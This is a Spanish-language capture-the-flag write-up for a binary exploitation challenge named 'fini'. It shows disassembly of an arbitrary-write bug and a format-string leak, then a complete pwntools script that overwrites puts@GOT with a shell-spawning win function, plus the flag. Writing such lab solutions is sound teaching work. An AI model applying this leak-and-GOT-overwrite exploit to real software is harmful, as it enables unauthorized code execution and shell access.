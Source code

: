 # fini

A juzgar por el nombre la solucion esperada debe haber estado relacionada con la seccion fini tal vez.

```
[*] '/home/kalcast/Descargas/ctf/PWN/fini/challenge1'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

- El binario no tiene RELRO, asi que la Global Offset Table es modificable.

- En la funcion `main` con la opcion "1" (write) podemos escribir 8 bytes en cualquier direccion:
```
..
|  ||| ::   ; CODE XREF from main @ 0x11ad(x)
|  |`-----> 0x000011d0      488d3d680e..   lea rdi, str.Addr__hex_:    ; 0x203f ; "Addr (hex): " ; const char *format
|  | | ::   0x000011d7      31c0           xor eax, eax
|  | | ::   0x000011d9      4c8d356c0e..   lea r14, str._llx           ; 0x204c ; "%llx"
|  | | ::   0x000011e0      e86bfeffff     call sym.imp.printf         ; int printf(const char *format)
|  | | ::   0x000011e5      31c0           xor eax, eax
|  | | ::   0x000011e7      488d742408     lea rsi, [var_8h]
|  | | ::   0x000011ec      4c89f7         mov rdi, r14                ; const char *format
|  | | ::   0x000011ef      48c7442408..   mov qword [var_8h], 0
|  | | ::   0x000011f8      e883feffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
|  | | ::   0x000011fd      83f801         cmp eax, 1
|  | |,===< 0x00001200      7545           jne 0x1247
|  | ||::   0x00001202      488d3d520e..   lea rdi, str.Value__hex__8_bytes_: ; 0x205b ; "Value (hex, 8 bytes): " ; const char *format
|  | ||::   0x00001209      31c0           xor eax, eax
|  | ||::   0x0000120b      e840feffff     call sym.imp.printf         ; int printf(const char *format)
|  | ||::   0x00001210      31c0           xor eax, eax
|  | ||::   0x00001212      4c89ee         mov rsi, r13
|  | ||::   0x00001215      4c89f7         mov rdi, r14                ; const char *format
|  | ||::   0x00001218      4889442410     mov qword [var_10h], rax
|  | ||::   0x0000121d      31c0           xor eax, eax
|  | ||::   0x0000121f      e85cfeffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
|  | ||::   0x00001224      83e801         sub eax, 1
|  |,=====< 0x00001227      751e           jne 0x1247
|  ||||::   0x00001229      488b542410     mov rdx, qword [var_10h]
|  ||||::   0x0000122e      488b442408     mov rax, qword [var_8h]
|  ||||::   0x00001233      488d3d380e..   lea rdi, [0x00002072]       ; "ok" ; const char *s
|  ||||::   0x0000123a      488910         mov qword [rax], rdx
|  ||||::   0x0000123d      e8eefdffff     call sym.imp.puts           ; int puts(const char *s)
|  ||||`==< 0x00001242      e937ffffff     jmp 0x117e
```

- En main, al introducir tu nombre y luego mostrartelo con `printf(input)` hay una vulnerabilidad de cadena formateada:
```
|           0x00001122      488d3de30e..   lea rdi, str.Whats_your_name_ ; 0x200c ; "What's your name?" ; const char *s
|           0x00001129      e802ffffff     call sym.imp.puts           ; int puts(const char *s)
|           0x0000112e      488b151b23..   mov rdx, qword [obj.stdin]  ; obj.stdin_GLIBC_2.2.5
|                                                                      ; [0x3450:8]=0 ; FILE *stream
|           0x00001135      be80000000     mov esi, 0x80               ; int size
|           0x0000113a      4c89ef         mov rdi, r13                ; char *s
|           0x0000113d      e81effffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x00001142      488d3dd50e..   lea rdi, str.Hello_         ; 0x201e ; "Hello, " ; const char *format
|           0x00001149      31c0           xor eax, eax
|           0x0000114b      e800ffffff     call sym.imp.printf         ; int printf(const char *format)
```

- Tambien tenemos de nuevo una funcion `win` que esta vez ejecuta una shell:
```
[0x00001380]> pdf
/ 12: sym.win ();
|       :   0x00001380      488d3d7d0c..   lea rdi, str._bin_sh        ; 0x2004 ; "/bin/sh"
\       `=< 0x00001387      e9b4fcffff     jmp sym.imp.system
```

---

La estrategia es:
1. Filtrar una direccion del binario
2. Calcular su offset a la entrada de `puts@GOT` y a `win`
3. Reemplazar la entrada de `puts@GOT` por la direccion de `win`
4. Llamar a `puts("bye")` con la opcion "2" (exit) para forzar a que se llame a `win("bye")` en su lugar.

Para filtrar la direccion usamos el operador de formato `%N$p` que nos permite imprimir 8 bytes (los primeros 6 pares desde los registros y el resto desde la pila). Con un depurador puedes añadir un breakpoint en main y observar si hay direcciones validas. 

### Exploit
```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./challenge1")
#libc = ELF("./")
#ld = ELF("./")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
break main
'''

domain= "ctf.ac.upt.ro"
port = 9058

def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])
r = start()

#========= exploit here ===================

r.recv()
r.sendline(b"%31$p")
r.recvuntil(b"Hello, ")
main_leak = int(r.recvline().strip(),16)
r.success(f"MAIN_LEAK: {hex(main_leak)}")

puts_got = main_leak + 0x2340
win_addr = main_leak + 0x2d0
r.success(f"PUTS@GOT: {hex(puts_got)}")
r.success(f"WIN ADDR: {hex(win_addr)}")
r.sendline(b"1")
r.sendline(hex(puts_got).encode())
r.sendline(hex(win_addr).encode())
r.interactive()
```

`ctf{c503f30375fd0e91985b4d8f0c9cdc234c8018a8b3e1df3f4d1a126725f47d42}`


